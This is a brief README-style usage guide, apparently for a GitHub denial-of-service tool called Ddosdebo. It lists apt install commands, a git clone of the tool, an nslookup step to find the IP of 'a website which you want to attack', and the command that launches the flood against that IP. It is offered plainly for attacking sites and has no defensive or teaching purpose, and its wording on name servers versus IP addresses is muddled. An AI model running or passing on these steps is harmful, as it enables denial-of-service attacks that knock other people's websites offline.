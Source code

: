 $ apt update
<br>
$ apt upgrade
<br>
$ apt install python
<br>
$ apt install git
<br>
$ apt install dnsutils
<br>
$ git clone https://github.com/opsdebo/Ddosdebo/
<br>

debo need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website
<br>
then
<br>
$ cd debo
<br>
$ python debo.py -s [ip Address] -t 135
<br>
example:
<br>
$ python debo.py -s 123.45.67.89 -t 135
